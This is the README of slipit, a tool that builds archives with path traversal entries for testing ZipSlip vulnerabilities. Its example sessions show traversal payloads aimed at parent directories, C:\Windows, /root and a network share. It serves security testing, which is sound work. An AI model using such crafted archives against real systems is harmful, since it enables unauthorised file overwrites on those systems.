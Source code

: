 ### slipit

----

*slipit* is a command line utility for creating archives with path traversal elements.
It is basically a successor of the famous [evilarc](https://github.com/ptoomey3/evilarc)
utility with an extended feature set and improved base functionality.


### Installation

----

*slipit* can be installed via [pip](https://pypi.org/project/pip/) by running the following commands:

```console
$ git clone https://github.com/usdAG/slipit
$ cd slipit
$ python3 setup.py sdist
$ pip3 install --user dist/* 
```

*slipit* also supports autocompletion for *bash*. To take advantage of autocompletion, you need to have the
[completion-helpers](https://github.com/qtc-de/completion-helpers) project installed. If setup correctly, just
copying the [completion script](./resources/bash_completion.d/slipit) to your ``~/.bash_completion.d`` folder enables
autocompletion.


### Usage

----

```console
[user@box ~]$ slipit -h
usage: slipit [-h] [--archive-type {zip,tar,tgz,bz2}] [--clear] [--debug] [--depth int] [--increment int]
              [--overwrite] [--prefix string] [--multi] [--remove name] [--separator char] [--sequence seq]
              [--static content] [--symlink target] [filename ...] archive

slipit v1.0.0 - Utility for creating ZipSlip archives.

positional arguments:
  filename              filenames to include into the archive
  archive               target archive file

optional arguments:
  -h, --help            show this help message and exit
  --archive-type {zip,tar,tgz,bz2}
                        archive type to use
  --clear               clear the specified archive from traversal items
  --debug               enable verbose error output
  --depth int           number of traversal sequences to use (default=6)
  --increment int       add incremental traversal payloads from <int> to depth
  --overwrite           overwrite the target archive instead of appending to it
  --prefix string       prefix to use before the file name
  --multi               create an archive containing multiple payloads
  --remove name         remove files from the archive (glob matching)
  --separator char      path separator (default=\)
  --sequence seq        use a custom traversal sequence (default=..{sep})
  --static content      use static content for each input file
  --symlink target      add as symlink (only available for tar archives)
```

*slipit* expects an arbitrary number of input files and the targeted output archive as mandatory command line
parameters. All specified input files are appended to the specified archive including a path traversal prefix
with a depth specified with the `--depth` option (default is 6). The targeted archive format is determined
automatically depending on the file extension for non existing archives or the mime type for already existing
archives. You can also specify the archive type manually by using the `--archive-type` option.

```console
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
[user@box ~]$ slipit test.txt example.zip 
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
```

*slipit* expects the specified input files to exist on your local file system and uses the file content of
them within the archive. Often times this is not necessary and you just require dummy content to test for
*ZipSlip* vulnerabilities. This is where the `--static <string>` option can be helpful. When using this option,
only the filenames of the specified input files are used within the archive, while their content is set to `<string>`.

```console
[user@box ~]$ slipit test2.txt example.zip --static 'HELLO WORLD :D'
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
..\..\..\..\..\..\test2.txt                    2022-02-02 18:45:22           14
```

By using the `--clear` option, you can clear an archive from path traversal payloads.

```console
[user@box ~]$ slipit --clear example.zip 
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
```

*slipit* also allows to create an archive containing multiple payloads by using the `--multi` option:

```console
[user@box ~]$ slipit test.txt example.zip --static content --multi
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
C:\Windows\test.txt                            2022-02-03 09:35:28            7
\\10.10.10.1\share\test.txt                    2022-02-03 09:35:28            7
/root/test.txt                                 2022-02-03 09:35:28            7
../test.txt                                    2022-02-03 09:35:28            7
..\test.txt                                    2022-02-03 09:35:28            7
../../test.txt                                 2022-02-03 09:35:28            7
..\..\test.txt                                 2022-02-03 09:35:28            7
../../../test.txt                              2022-02-03 09:35:28            7
..\..\..\test.txt                              2022-02-03 09:35:28            7
../../../../test.txt                           2022-02-03 09:35:28            7
..\..\..\..\test.txt                           2022-02-03 09:35:28            7
../../../../../test.txt                        2022-02-03 09:35:28            7
..\..\..\..\..\test.txt                        2022-02-03 09:35:28            7
```


### Supported Archive Types

----

Currently, the following archive types are supported (just naming their most common
extension):

* `.zip`
* `.tar`
* `.tar.gz`
* `.tar.bz2`
